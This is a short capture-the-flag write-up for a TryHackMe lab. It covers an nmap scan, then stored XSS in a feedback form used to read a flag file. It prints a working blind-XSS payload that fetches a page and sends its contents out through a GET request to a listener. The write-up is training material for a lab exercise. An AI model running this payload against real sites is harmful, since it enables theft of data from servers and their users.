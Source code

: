 Link to machine : https://tryhackme.com/room/thestickershop

# SCANNING

I performed an **nmap** aggressive scan to identify open ports and the services running on the target.

![](IMAGES/1.png)

# CAPTURING THE FLAG

Since I already had the path to flag, I tried accessing it directly.

![](IMAGES/2.png)

I did not have the appropriate permissions, so I visited the web site hosted on the target.

![](IMAGES/3.png)

The site contained a feedback field.

![](IMAGES/4.png)

I tried executing a cross site scripting payload.

![](IMAGES/5.png)

My XSS payload worked, hence I modified my payload to make the server send a request to my local machine.

![](IMAGES/6.png)

Upon execution, my local machine received a GET request from the server.

![](IMAGES/7.png)

Hence, I used the below payload to make the server get the data from *flag.txt* and then send it to my local machine through a GET request.

```html
<img src='a' onerror='
  fetch("http://localhost:12345/product")  // Send the request to your local Netcat listener
    .then(response => response.text())  // Get the response text
    .then(data => {
      fetch("http://localhost:12345?data=" + encodeURIComponent(data));  // Send the fetched data to Netcat
    })
    .catch(err => console.error("Error fetching data:", err));
'>
```

![](IMAGES/8.png)

Upon execution, I successfully received the value of the flag.

![](IMAGES/9.png)

Happy Hacking !

---
